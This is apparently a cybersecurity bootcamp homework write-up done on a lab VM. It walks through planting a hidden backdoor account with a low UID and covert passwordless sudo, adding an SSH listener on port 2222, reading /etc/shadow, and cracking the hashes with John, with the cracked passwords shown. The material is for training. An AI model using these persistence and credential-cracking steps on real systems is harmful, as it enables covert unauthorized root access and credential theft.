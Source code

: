 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt.

Save and submit the completed file for your homework submission.
> As the Access Setup had us switch to `root`, I ran all the below commands as root (so there's no need for `sudo`)

**Step 1: Shadow People**

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:  
    `sudo useradd  --groups sudo -M --system --shell /bin/bash sysd`

    ```bash
    root@scavenger-hunt:~# grep sysd /etc/passwd
    sysd:x:998:998::/home/sysd:/bin/bash
    ```

2. Give your secret user a password:
 ```bash
    root@scavenger-hunt:~# passwd sysd
    Enter new UNIX password:
    Retype new UNIX password:
    passwd: password updated successfully
 ```

3. Give your secret user a system UID < 1000:  
> N.B While specifying `--system` on `useradd` created a user with a system UID, I opted to change it lower to blend in with the other system user ids.

    `usermod --uid 123 sysd`

4. Give your secret user the same GID:
   `groupmod --gid 123 sysd` change gid of existing group

```bash
   root@scavenger-hunt:~# grep sysd /etc/passwd
   sysd:x:123:123::/home/sysd:/bin/bash
```    

5. Give your secret user full `sudo` access without the need for a password:
> Found out that last match in /etc/sudoers is what counts. Didn't want to specify NOPASSWD for either sudo group (somebody might notice). Added following to bottom of `/etc/sudoers`.  

`sysd      ALL=(ALL:ALL) NOPASSWD:ALL`
6. Test that `sudo` access works without your password:

```bash
    sysd@scavenger-hunt:/$ cat /etc/shadow
    cat: /etc/shadow: Permission denied
    sysd@scavenger-hunt:/$ sudo cat /etc/shadow
    root:*:18113:0:99999:7:::
    daemon:*:18113:0:99999:7:::
    bin:*:18113:0:99999:7:::
    sys:*:18113:0:99999:7:::
    sync:*:18113:0:99999:7:::
    games:*:18113:0:99999:7:::
    man:*:18113:0:99999:7:::
    lp:*:18113:0:99999:7:::
    mail:*:18113:0:99999:7:::
    news:*:18113:0:99999:7:::
... remaining entries omitted ...
```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    nano  /etc/ssh/sshd_config
    Added `Port 2222` line
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart sshd`

checking what's listening    
```
root@scavenger-hunt:/# netstat -4latp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      23186/systemd-resol
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      10320/sshd
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      10320/sshd
tcp        0    288 scavenger-hunt:ssh      192.168.6.1:54703       ESTABLISHED 10060/sshd: sysd [p
```
2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`  


4. Use `sudo` to switch to the root user:
```
  sysd@scavenger-hunt:/$ sudo su

  You found flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

  root@scavenger-hunt:/# id
  uid=0(root) gid=0(root) groups=0(root)  
```


**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

`ssh sysd@192.168.6.105 -p 2222`


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

```bash
sudo su
root@scavenger-hunt:/#  john --wordlist=/home/student/Desktop/.pass_list.txt /etc/shadow
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Remaining 7 password hashes with 7 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
trustno1         (mitnik)
freedom          (babbage)

root@scavenger-hunt:~# john /etc/shadow
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Remaining 5 password hashes with 5 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
Goodluck!        (student)
cyber            (sysd)
```

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
